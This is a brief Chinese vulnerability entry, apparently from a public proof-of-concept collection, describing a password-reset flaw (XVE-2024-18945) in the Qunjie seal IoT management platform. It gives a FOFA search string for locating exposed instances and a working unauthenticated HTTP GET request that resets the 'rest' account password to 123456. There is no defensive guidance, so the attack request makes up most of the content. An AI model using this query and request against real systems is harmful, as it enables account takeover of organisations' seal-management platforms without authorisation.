 # 群杰印章物联网管理平台rest密码重置漏洞(XVE-2024-18945)

群杰印章物联网管理平台是由江苏群杰物联科技有限公司开发的智能印章管理解决方案。该平台利用物联网技术，提供印章全生命周期管理，涵盖印章的申请、领用、归还、销毁等各个环节。 群杰印章物联网管理平台存在rest账户密码重置漏洞，攻击者可利用该漏洞重置rest账户密码。

## fofa

```yaml
"群杰印章物联网平台"
```

## poc

```java
GET /api/token/updateRestUser?restname=rest&password=123456 HTTP/1.1
Host:

```

